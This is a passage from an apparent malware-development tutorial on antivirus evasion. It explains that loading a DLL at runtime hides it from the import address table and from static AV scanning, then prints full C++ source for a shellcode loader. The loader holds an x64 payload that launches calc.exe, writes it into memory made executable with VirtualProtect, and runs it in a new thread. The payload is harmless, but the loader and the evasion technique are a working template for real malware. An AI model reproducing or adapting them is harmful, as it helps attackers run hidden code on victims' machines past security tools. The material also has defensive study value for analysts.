 So what is important here? Is that if you compile your code, compiler will not include `hacker.dll` into import address table. So AV engine will not be able to see that during static analysis.

Let's see how we can practically use this technique. Let's take a look at the source coude of our first malware from [part 1](http://127.0.0.1:4000/tutorial/2021/09/04/simple-malware-av-evasion.html):
```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
```